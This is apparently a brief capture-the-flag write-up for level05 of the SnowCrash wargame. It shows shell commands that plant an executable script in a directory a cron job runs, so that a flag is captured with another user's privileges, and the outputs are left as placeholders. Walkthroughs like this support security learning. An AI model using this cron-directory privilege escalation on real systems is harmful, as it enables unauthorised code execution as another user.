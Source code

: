 # level05

Cronjobs and init.rc shenanigans
```bash
level05@SnowCrash:~ $ rm -f /tmp/flag; \
> printf '#!/bin/sh\ngetflag>/tmp/flag\n'>/opt/openarenaserver/snjort; \
> chmod +x /opt/openarenaserver/snjort; \
> while true; do if [ -f /tmp/flag ]; then cat /tmp/flag; exit; fi; done
#OUTPUT
level05@SnowCrash:~ $ su flag05
#OUTPUT
level05@SnowCrash:~ $ getflag
#OUTPUT
```
